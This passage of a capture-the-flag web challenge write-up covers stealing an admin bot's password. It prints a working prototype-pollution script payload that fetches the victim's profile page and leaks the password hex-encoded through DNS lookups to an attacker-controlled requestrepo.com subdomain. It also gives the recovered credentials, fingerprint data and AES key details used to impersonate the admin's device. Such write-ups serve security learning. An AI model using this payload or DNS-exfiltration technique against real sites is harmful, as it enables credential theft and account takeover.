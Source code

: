 We thought that it will be easy from now on, just exfiltrate the cookie via HTTP and be done with it. But oh no, the challenge just began:
- When doing a request to our site, we would only receive the DNS request and no HTTP request (this was intended since all outgoing traffic except for DNS was forbidden)
- The session is HTTP only and we cannot retrieve it

Well, the dns issue is not *too* bad, since we can use requestrepo.com to capture all DNS traffic to our subdomain, but we are limited in the amount of bytes we can exfil from the target (I went with ~20 bytes per request, since it was pretty easy to query the bot).

One thing that saves us here is that the password is actually in plain text in the /profile section, but hidden using JavaScript. As such, I built a payload that looked like this to exfiltrate the password using fetch + DNS exfil:

```js
{"ids":["13"],"constructor":{"prototype":{"srcdoc":[" <script>fetch('/web5-6b3799be4300e44489a08090123f3842e6419da5/profile').then(response => response.text()).then(text => {     location='//X'+text.split('Password:')[1].split('</span>')[0].substr(22,99).split('').map(c=>c.charCodeAt(0).toString(16).padStart(2,'0')).join('').substr(0,32)+'.cras63mo.requestrepo.com/' ; }) </script>"]}}}
```

I went with hex based dns exfil since DNS doesn't really preserve case, and I added an X at the beginning to make sure I capture even empty exfils (since a fetch where the domain starts with . would fail).

![](/assets/images/posts/J3JUk3N.png)

As such, we can get the admin's password which is `r:NYurr$N}Ri:c`. Now we spent a bit of time trying to search for the username, as it's not in the /profile section, but we can actually see the admin's profile in the WebSockets responses:

```
42["message",{"username":"jacarrion","message":"I visited the link you sent! Where is the streaming?","image":"avatar_0.png"}]
```

So we can login as `jacarrion` / `r:NYurr$N}Ri:c` to get the flag, right?

Well, not yet. If we go to /media and try to watch the livestream, we get a blank video, and when we go to `/static/videos/livestreaming.mp4` we get this: `{"message": "This device is not associated with an Ultras Subscription."}`

Which makes us think about a feature that we saw in Burp, but didn't pay much attention to it. It seems like we need to exfil the admin's fingerprint data (by querying /api/fingerprint , we can reuse the same technique as above) and we get this:

`{"device_data":{"ip":"52.29.7.52","language":"en-US","mobile":false,"os":"Unknown","screen_height":600,"screen_width":800,"timezone":0,"user_agent":"!**GOBECCOJUNIORS**!","webdriver":true},"device_id":"a4b6a4da760e000eb288534fc1823cac15adfe65007bcb3b12dbf95dc979f920"}`

There's one more thing, the data that is being sent to /api/fingerprint seems to be encrypted. There's a `/static/js/device_obf.js` that we need to reverse in order to find out how the encryption happens:

```js

  // AES encryption taking place, with IV yvZUad5eQYRpU2HQ
  _0xb1643d()
  const _0x5d825b = CryptoJS.enc.Utf8.parse(_0x8a21d0)
  const _0x23fd1e = CryptoJS.enc.Utf8.parse('yvZUad5eQYRpU2HQ'),
    _0x37fa2c = CryptoJS.AES.encrypt(_0x5eee54, _0x5d825b, {
      iv: _0x23fd1e,
      mode: CryptoJS.mode.CBC,
    }).toString()
  return _0x37fa2c

function lolasd() { // the function that computes the AES key x@4w}^6H>MqP[S1!
  const _0x1a0826 = (function () {
      let _0x429d86 = true
      return function (_0x4d697a, _0x221ee0) {
```